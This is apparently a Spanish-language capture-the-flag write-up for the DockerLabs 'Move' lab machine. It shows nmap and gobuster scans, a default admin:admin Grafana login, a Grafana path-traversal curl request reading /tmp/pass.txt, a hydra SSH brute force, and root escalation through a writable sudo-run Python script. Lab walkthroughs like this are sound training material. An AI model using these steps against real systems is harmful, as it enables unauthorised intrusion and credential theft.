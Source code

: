 # MOVE - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Move. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./move.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: El Pingüino de Mario

## ESQUEMA

![move](https://github.com/user-attachments/assets/c13a6c35-79cf-40c0-86b3-4364485d95c2)

## RECONOCIMIENTO DE RED

### conectividad y SO

Antes de empezar con el escaneo ed puertos, comprobamos que tengamos conectividad con la máquina:

```python
ping -c 1 172.17.0.2
```

![image](https://github.com/user-attachments/assets/5f1907b2-25b6-4c1d-8d68-e2aaf43d49ec)

Vemos que recibimos respuesta con TTL 64, por lo que el sistema operativo seguramente sea Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos por TCP con nmap:

```python
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports
```

> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

![image](https://github.com/user-attachments/assets/a0622c0c-535e-405a-8e6a-c50b4e956dda)

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

**3000 - TCP - PPP?**

Ahora hacemos sobre estos tres puertos un escaneo de versiones y también lanzamos scripts de reconocimiento estándar:

```python
nmap -p22,80,3000 -sCV 172.17.0.2 -oN targeted
```

> `-p22,80,3000` hacer el escaneo solo sobre estos tres puertos

> `-sCV` lanzar escaneo de versiones y scripts estándar de reconocimiento

> `-oN targeted` exportar el output al archivo `targeted`, en formato nmap

![image](https://github.com/user-attachments/assets/38911510-1fb2-4f54-9a84-f23727d3cb97)

Vemos que en el puerto 3000 hay un servicio HTTP. Probablemente sea Grafana, ya que el puerto 3000 es su puerto por defecto.

## RECONOCIMIENTO WEB

Primero empezamos con el servicio HTTP del puerto 80. Desde consola hacemos `whatweb http://172.17.0.2`:

![image](https://github.com/user-attachments/assets/bbcf2071-acaa-4a73-ad27-1510fbdb4faf)

No vemos nada interesante. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/4c5bb67c-3657-4f8c-99c1-0565feaf6940)

Vemos la web de Apache2 por defecto de Debian. Probamos a hacer fuzzing con gobuster, usando el directory-list-2.3-medium.txt:

```python
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,php.bak,txt,py,cgi,bin,pl,sh,rb,c,cpp,html,js,bak
```

![image](https://github.com/user-attachments/assets/dedd6bbb-b630-4f51-8a1d-f89ca57760b7)

Vemos un archivo llamado maintenance.html:

![image](https://github.com/user-attachments/assets/ac314719-6497-4488-9e47-18619c11e215)

Pone "acceso en /tmp/pass.txt", pero por ahora no nos sirve de nada ya que no tenemos ningún LFI, Path Traversal o cualquier forma de ver el archivo.

Pasamos al puerto 3000. Hacemos `whatweb http://172.17.0.2:3000`:

![image](https://github.com/user-attachments/assets/cf9c76d8-4b42-4e5f-98a3-01b69188bde0)

Vemos que se nos redirige a http://172.17.0.2:3000/login, y que se usa Grafana. Cargamos la web en el navegador:

![image](https://github.com/user-attachments/assets/869c49fb-8424-449b-ac63-1dd6f498e12b)

Vemos el panel de login de Grafana. Probamos a poner admin:admin, y funciona. Ahora estamos en el panel de administración:

![image](https://github.com/user-attachments/assets/2f37df60-cb37-428e-bab9-daef84e859b9)

## INTRUSIÓN

Si buscamos en Google "Grafana exploit", vemos esto: https://exploit-notes.hdks.org/exploit/web/grafana-pentesting/. Si nos metemos, vemos que hay una ruta de Grafana en la que hay un Path Traversal. Nos podría servir para ver el archivo /tmp/pass.txt.

```python
curl --path-as-is http://172.17.0.2:3000/public/plugins/alertlist/../../../../../../../../tmp/pass.txt -o pass.txt
```

Ahora hacemos `cat pass.txt`:

![image](https://github.com/user-attachments/assets/3f397bd7-915e-4a0d-81cc-08259b2c9b7d)

Y vemos lo que parece ser una contraseña. Podemos hacer fuerza bruta de usuarios con esta contraseña por SSH:

```python
hydra -L /usr/share/wordlists/rockyou.txt -p t9sH76gpQ82UFeZ3GXZS ssh://172.17.0.2
```

![image](https://github.com/user-attachments/assets/85254cc5-234f-4431-86af-7ec26447a504)

Consigue encontrar un usuario llamado freddy. Ahora para conectarnos hacemos `ssh freddy@172.17.0.2` y de contraseña t9sH76gpQ82UFeZ3GXZS.

## TRATAMIENTO TTY

```python
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows <filas> columns <columnas>
```

Para ver el número de filas y columnas que usa tu pantalla, ejecutas `stty -a`.

## ESCALADA DE PRIVILEGIOS (ROOT)

Siendo el usuario freddy, hacemos `sudo -l` para ver nuestros privilegios especiales de sudo:

![image](https://github.com/user-attachments/assets/afd2195f-9de7-4cb5-948e-0cd9737be5dc)

Vemos que podemos ejecutar como cualquier usuario, sin usar nuestra contraseña, el script /opt/maintenance.py usando el intérprete /usr/bin/python3. Si hacemos `ls -l /opt/maintenance.py`, vemos que freddy es el propietario del script y que podemos modificarlo. Entonces lo abrimos con nano, importamos la librería os y ejecutamos una bash:

![image](https://github.com/user-attachments/assets/6130e5b0-0163-4d3e-a6f4-5a8a27c92ebc)

Ahora lo guardamos, y hacemos `sudo /usr/bin/python3 /opt/maintenance.py`:

![image](https://github.com/user-attachments/assets/b665df18-c32e-4824-aed4-1473641a0792)

Y ganamos una bash como root en la máquina Move.